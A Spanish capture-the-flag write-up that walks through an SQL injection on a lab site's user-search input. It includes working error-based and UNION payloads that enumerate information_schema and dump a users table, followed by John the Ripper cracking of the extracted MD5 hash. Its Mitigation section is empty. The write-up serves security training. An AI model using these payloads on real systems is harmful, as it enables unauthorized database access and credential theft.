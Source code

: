 # Inyección SQL - Usuarios
(owasp)

Misma vulnerabilidad que [la inyección SQL en la vista de imágenes](./sql_injection_images.md).

El ataque de **inyección SQL** consiste en la capacidad de realizar queries diréctamente a la base de datos del servidor mediante la introducción de queries SQL en parámetros de input **no sanitizado**.

## Ataque

En la url de http://<IP>/???, tenemos acceso a un input para buscar usuarios por id, por lo que suponemos que el input de usuario va a formar parte de una query a la base de datos.

Probamos si podemos tener acceso a una vulnerabilidad por mala validación de input; escribimos un `'` y enviamos.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```

El servidor no valida la entrada, así que podemos intentar una injección.

Primero, obtenemos la versión de la base de datos del servidor con la siguiente query:

```sql
1 OR 1 GROUP BY CONCAT_WS(0x3a,VERSION(),FLOOR(RAND(0)*2)) HAVING MIN(0) OR 1-- -


Duplicate entry '5.5.64-MariaDB-1ubuntu0.14.04.1:1' for key 'group_key'
```
[Fuente: Andvanced SQL Injection Cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL-Bypass-Error/README.md)


Tras invesigar esta versión, descubrimos que las versiones mayores de 5.02 de MySQL tienen una base de datos llamadas **INFORMATION_SCHEMA**, que contienen información sobre el resto de bases de datos guardadas en el servidor, lo que nos va a resultar útil en la exploración de la tabla users.

Exploranco [la documentación](https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.html), vemos que information_schema contiene una tabla **columns**, en donde se guardan los nombres de todas las columnas de todas las tablas presentes en la base de datos.

Desde el servidor se escapan los caracteres de comillas, por lo que tendemos que lanzar una query para obtener todas las columnas de todas las tablas.

Como desde el servidor únicamente se recuperan dos columnas para mostrar los parámetros en front, debemos hacer un **union** para concatenar dos columnas con la información que nos interesa.

```sql
1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns
```

Y de aquí obtenemos dos columnas interesantes de una tabla **users**.

```
ID: 1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns 
First name: users+Member_Sql_Injection
Surname : Commentaire

ID: 1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns 
First name: users+Member_Sql_Injection
Surname : countersign
```

Tras obtener los nombres de las columnas de la tabla `users`, sólo nos queda mirar los valores de las columnas sospechosas del usuario Flag.

```sql
420 or 1=1 union select Commentaire, countersign from users
```

Obtenemos lo siguiente:

```
ID: 420 or 1=1 union select Commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```
Hacemos lo que nos pide con un john.

```bash
root@f4e2e2e5dc49:/# /john-jumbo/run/john --format=raw-md5 --wordlist=rockme.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Note: Passwords longer than 18 [worst case UTF-8] to 55 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Warning: Only 1 candidate buffered, minimum 24 needed for performance.
FortyTwo         (user)
1g 0:00:00:00 DONE (2025-06-15 15:21) 100.0g/s 100.0p/s 100.0c/s 100.0C/s FortyTwo
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
root@f4e2e2e5dc49:/# echo -n FortyTwo | sha256sum
9995cae900a927ab1500d317dfcc52c0ad8a521bea878a8e9fa381b41459b646  -
```

He aquí la flag.

## Mitigación



## Referencias

